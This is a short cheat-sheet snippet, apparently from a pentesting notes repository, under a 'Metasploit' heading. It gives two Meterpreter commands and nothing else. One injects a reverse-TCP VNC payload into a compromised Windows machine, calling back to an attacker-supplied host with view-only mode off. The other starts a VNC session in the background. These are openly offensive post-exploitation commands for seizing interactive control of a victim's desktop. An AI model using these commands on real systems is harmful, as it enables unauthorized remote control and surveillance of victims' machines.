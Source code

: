 # Metasploit

```
meterpreter > run post/windows/manage/payload_inject payload=windows/vncinject/reverse_tcp lhost=<IP> options=viewonly=false
```

```
meterpreter > bgrun vnc
```